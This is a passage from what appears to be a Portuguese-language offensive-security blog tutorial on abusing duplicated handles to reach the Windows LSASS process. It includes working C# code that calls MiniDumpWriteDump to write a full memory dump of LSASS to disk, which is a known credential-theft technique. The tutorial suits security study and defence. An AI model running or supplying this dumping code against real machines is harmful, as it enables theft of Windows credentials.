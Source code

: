 ![Desktop View](https://blackmetal2000.github.io/assets/img/open-handles/Ykf8Jw0.png)

E, finalmente! Temos um handle pro LSASS! Vamos pausar a execução do código e ver as permissões que o handle possui. Se tudo estiver certo, o handle duplicado do LSASS terá herdado as mesmas permissões que o handle original (`PROCESS_QUERY_INFORMATION` e `PROCESS_VM_READ`).

![Desktop View](https://blackmetal2000.github.io/assets/img/open-handles/g8SRVNL.png)

## MiniDumpWriteDump¹³

>`MiniDumpWriteDump¹³`: API utilizada para realizar o dump de um processo. Comumente utilizada em ataques ao LSASS.
{: .prompt-info }

Maravilha! Depois de todos esses processos, finalmente possuímos um handle válido pro LSASS! E com permissões de leitura de memória! Agora, será possível realizar o dump do processo.

```csharp
[Flags]
public enum MiniDumpType
{
    MiniDumpWithFullMemory = 0x00000002
}

[DllImport("dbghelp.dll", SetLastError = true)]
public static extern bool MiniDumpWriteDump(
	IntPtr hProcess,
	int ProcessId,
	SafeHandle hFile,
	MiniDumpType DumpType,
	IntPtr ExceptionParam,
	IntPtr UserStreamParam,
	IntPtr CallbackParam
);

public static void CreateDumpFile(IntPtr hDuplicate)
{
	Console.WriteLine("\n[!] (MiniDumpWriteDump) Criando arquivo de despejo: .\\dump.dmp");

	var fs = new FileStream("dump.dmp", FileMode.Create);

	bool result = MiniDumpWriteDump(
		hDuplicate, // handle duplicado do LSASS
		0,
		fs.SafeFileHandle,
		MiniDumpType.MiniDumpWithFullMemory,
		IntPtr.Zero,
		IntPtr.Zero,
		IntPtr.Zero
);

if (result == true) { Console.WriteLine("[+] (MiniDumpWriteDump) Dump realizado com sucesso."); }

}
```
